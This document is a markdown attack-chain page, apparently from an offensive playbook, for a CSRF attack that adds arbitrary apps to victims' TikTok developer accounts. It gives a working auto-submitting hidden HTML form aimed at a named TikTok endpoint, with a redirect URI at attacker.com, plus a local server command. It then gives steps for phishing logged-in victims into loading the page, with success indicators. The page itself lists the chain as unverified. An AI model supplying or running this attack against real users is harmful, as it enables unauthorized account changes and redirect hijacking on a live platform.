

# CSRF to Add Arbitrary Apps to TikTok Developer Account

Multi-stage attack chain demonstrating a complete CSRF exploitation workflow in TikTok's developer account system.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome Developer Tools for testing)
- Local web server (e.g., Python's built-in HTTP server)

### Target Environment

- Target Platform: Web (TikTok developer portal)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to TikTok's developer site

### Initial Access Requirements

- Victim must be authenticated in TikTok developer account
- Attacker needs a way to lure victim (e.g., phishing link)
- No prior access to victim's account needed

## Detailed Attack Procedures

### Step 1: Craft Malicious CSRF Page
procedure: [[procedures/Exploit-CSRF-to-Add-App-to-TikTok-Developer-Account]]

**Objective**: Create an HTML page that automatically submits a form to TikTok's app addition endpoint, bypassing CSRF protections due to missing tokens.

**Instructions**: Develop a simple HTML file with a hidden form targeting the vulnerable endpoint. The form should include parameters for the malicious app details (e.g., app name, redirect URI). Host this page locally or on a controlled server.

Example HTML structure:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="https://developers.tiktok.com/v2/app/create/" method="POST" style="display:none;">
  <input type="text" name="app_name" value="MaliciousApp">
  <input type="text" name="redirect_uri" value="https://attacker.com/callback">
  <input type="submit" value="Add App">
</form>
<script>
document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Save as `csrf.html` and serve it using a local server:

```bash
python3 -m http.server 8000
```

Access `http://localhost:8000/csrf.html` to test.

**Expected Output**: The form submits automatically, adding the app if the victim is logged in.

**Success Indicators**:
- Form submission occurs without user interaction
- No CSRF token error from the server

### Step 2: Lure Victim and Execute
procedure: [[procedures/Exploit-CSRF-to-Add-App-to-TikTok-Developer-Account]]

**Objective**: Induce the victim to visit the malicious page while authenticated in the TikTok developer portal, triggering the unauthorized app addition.

**Instructions**: Distribute the malicious URL via phishing email, social engineering, or embedded in a legitimate-looking site. Ensure the victim is logged into https://developers.tiktok.com/. Upon visit, the page auto-submits the form.

Monitor for success by checking if the app appears in the victim's account (requires separate verification or social engineering to confirm).

**Expected Output**: Unauthorized app added to victim's developer account, visible in their app list.

**Success Indicators**:
- Victim reports or attacker confirms app addition
- Account permissions now include the malicious app

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to add apps without authentication checks
2. Compromised developer account integrity for potential further exploitation
3. Demonstrated high-impact unauthorized modification with low complexity

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
